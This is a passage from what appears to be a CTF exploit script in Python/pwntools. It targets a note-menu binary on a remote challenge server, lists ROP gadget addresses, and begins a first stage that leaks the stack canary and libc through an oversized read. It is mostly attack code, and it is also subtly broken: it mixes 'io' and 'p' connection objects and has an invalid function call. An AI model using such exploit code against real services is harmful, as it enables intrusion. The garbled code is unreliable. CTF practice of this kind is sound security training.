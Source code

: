 ```py
            b* 0x0000000000401953
            continue
			''')
		else:
			raw_input('DEBUG')
	else:
		io = remote('103.162.14.240', 15001)

	return io

io = conn()

elf = ELF('./chall_patched')
libc = ELF('libc.so.6')

pop_rax = 0x0000000000401491
pop_rdi = 0x000000000040148f
pop_rsi = 0x0000000000401493
pop_rsp = 0x00000000004014a0
pop_r10 = 0x0000000000401497
pop_r8 = 0x000000000040149a
pop_r9 = 0x000000000040149d
pop_rdx = 0x0000000000401495

sys_call = 0x00000000004014a8

# Stage 1 : Leak canary and Libc :
    
def create_note():
    io.sendlineafter(b'> ', b'1')

def write_note(idx, size=0x1000):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'idx = ', str(idx).encode())
    io.sendlineafter(b'size to write = ', f"{size}".encode())

def read_note(idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'idx = ', str(idx).encode())


for i in range(30):
    create_note()
    if i ==0:
        p.recvuntil(b"Addr of note 0 is 0x")
        addr_0=int(p.recvuntil(b"\n").rstrip().decode(),16)
    sleep(0.1)

write_note(0, size=100, b'flag\0')
write_note(3, size=0x1740+0x100) 
read_note(3)

for i in range(0x10):
	p.recv(0x100)
	log.info("")
	sleep(0.5)

sleep(1)
p.recv(0x760+9-1)
sleep(1)
canary = u64(p.recv(8))
log.info(f"canary = {hex(canary)}")

```